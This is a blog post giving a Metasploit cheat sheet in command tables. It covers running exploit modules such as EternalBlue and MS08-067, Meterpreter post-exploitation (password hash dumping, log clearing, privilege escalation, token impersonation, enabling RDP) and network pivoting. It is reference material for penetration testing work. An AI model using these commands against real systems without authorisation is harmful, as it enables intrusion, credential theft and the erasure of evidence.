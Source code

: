 ```yaml
---
layout: post
title: Metasploit Cheat Sheet
date: 2018-12-01 20:31 -0300
categories: [cheatsheet, offensive_security]
tags: [ offensive security, cheat sheet, reverse shell, backdoor, bash, perl, python, PHP]
---
```


![Image of Metasploit Cheat Sheet](/uploads/msflogo.png)

A few months ago I have created a [msfvenom cheat sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/) without explaining the Metasploit framework, so here it is a brief cheat sheet.


Metasploit is a free tool that has built-in exploits which aids in gaining remote access to a system by exploiting a vulnerability in that server.

### General Information

| Command             | Description                |
|-------------------------|-------------------------------|
| msfconsole              | Launch program                |
| version                 | Display current version       |
| msfupdate               | Pull the weekly update        |
| makerc ```<FILE.rc>```        | Saves recent commands to file |
| msfconsole -r ```<FILE.rc>``` | Loads a resource file         |

### Executing an Exploit / Scanner / Module

|Command | Description 
|-----|-----
|use ```<MODULE>``` | Set the exploit to use
|set payload ```<PAYLOAD>``` | Set the payload
|show options | Show all options
|set ```<OPTION>``` ```<SETTING>``` | Set a setting
|exploit or run | Execute the exploit

### Session Handling

|Command | Description
|----- | ----- 
|sessions -l | List all sessions
|sessions -i ```<ID>``` | Interact/attach to session
|background or ^Z | Detach from session

### Using the Database

The DB saves data found during exploitation. Auxiliary scan results, hashdumps, and credentials show up in the DB.

- First Time Setup (Run from linux command line.)

Command|Description
-----|-----
service postgresql Start|Start DB
msfdb Init|Init the DB

- Inside msfconsole

Command|Description
-----|-----
db\_status|Should say connected
hosts|Show hosts in DB
services|Show ports in DB
vulns|Show all vulns found

### Meterpreter Session Commands

The Meterpreter is a payload within the Metasploit Framework that provides control over an exploited target system, running as a DLL loaded inside of any process on a target machine. 

Command|Description
-----|-----
sysinfo|Show system info
ps|Show running processes
kill ```<PID>```|Terminate a process
getuid|Show your user ID
upload / download|Upload / download a file
pwd / lpwd|Print working directory (local / remote)   
cd / lcd|Change directory (local / remote)
cat|Show contents of a file
edit ```<FILE>```|Edit a file (vim)
shell|Drop into a shell on the target machine
migrate ```<PID>```|Switch to another process
hashdump|Show all pw hashes (Windows only)
idletime|Display idle time of user
screenshot|Take a screenshot
clearev|Clear the logs

- Escalate Privileges 

Command|Description
-----|-----
use priv |Load the script
getsystem|Elevate your privs
getprivs|Elevate your privs

- Token Stealing (Windows only)

Command|Description
-----|-----
use incognito|Load the script
list\_tokens -u|Show all tokens
impersonate\_token|DOMAIN\\USER Use token
drop\_token|Stop using token

- Network Pivoting

Command|Description
-----|-----
portfwd [ADD/DELETE] -L ```<LHOST>``` -l 3388 -r ```<RHOST>``` -p 3389 | Enable port forwarding
route add ```<SUBNET>``` ```<MASK>``` | Pivot through a session by adding a route within msf  
route add ```192.168.0.0/24``` | Pivot through a session by adding a route within msf 
route add ```192.168.0.0/24``` -d | Deleting a route within msf


### Finding an Exploit / Payload to Use

Command|Description
-----|-----
search ```<TERM>```|Searches all exploits, payloads, and auxiliary modules
show exploits|Show all exploits
show payloads|Show all payloads
show auxiliary|Show all auxiliary modules (like scanners)
show all|*

### My favorite

Command|Description
-----|-----
use auxiliary/scanner/smb/smb\_enumshares|SMB Share Enumeration
use auxiliary/scanner/smb/smb\_ms17\_010|MS17-010 SMB RCE Detection
use exploit/windows/smb/ms17\_010\_eternalblue|MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
use exploit/windows/smb/ms17\_010\_psexec|MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
use exploit/windows/smb/ms08\_067\_netapi|MS08-067 Microsoft Server Service Relative Path Stack Corruption
use exploit/windows/smb/psexec |Microsoft Windows Authenticated User Code Execution
use exploit/multi/ssh/sshexec|SSH User Code Execution (good for using meterpreter)
use post/windows/gather/arp\_scanner|Windows Gather ARP Scanner
use post/windows/gather/enum\_applications|Windows Gather Installed Application Enumeration
run getgui -e |Enables RDP for Windows in meterpreter session

### External Resources

- [https://github.com/coreb1t/awesome-pentest-cheat-sheets/blob/master/docs/Metasploit-CheatSheet.pdf](https://github.com/coreb1t/awesome-pentest-cheat-sheets/blob/master/docs/Metasploit-CheatSheet.pdf)

- [https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

